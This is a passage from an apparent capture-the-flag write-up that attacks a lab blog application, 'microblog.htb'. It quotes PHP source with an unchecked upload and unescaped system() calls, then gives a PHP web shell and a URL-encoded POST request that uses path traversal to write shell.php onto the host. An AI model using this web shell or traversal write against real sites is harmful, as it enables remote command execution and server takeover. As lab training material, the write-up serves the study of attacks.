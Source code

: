 ```php
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```

There is no protection against the file type we could send. We can notice the folder `uploads`, that is dynamically created by the application when we activated the "pro" option :

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

Being a pro user, a folder named “uploads” is created with read/write/execute access rights (chmod 700).

## Initial access

### Exploitation

Since we already have the ability to write a file (when adding text), we can reuse this to write a PHP file on target host, that will give a remote control.

The target full directory name would be : `/var/www/microblog/john`

And the target shell file: `/var/www/microblog/john/shell.php`

We can use [https://www.revshells.com/](https://www.revshells.com/) to generate a payload. Let's generate a really simple command execution to test: "PHP cmd 2"

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

We need to URL encode this payload in order to send it as a parameter :

```text
POST /edit/index.php HTTP/1.1
Host: john.microblog.htb
...

id=../../../../../../../var/www/microblog/john/uploads/shell.php&txt=<%3fphp+if(isset($_REQUEST['cmd'])){+echo+"<pre>"%3b+$cmd+%3d+($_REQUEST['cmd'])%3b+system($cmd)%3b+echo+"</pre>"%3b+die%3b+}%3f>
```
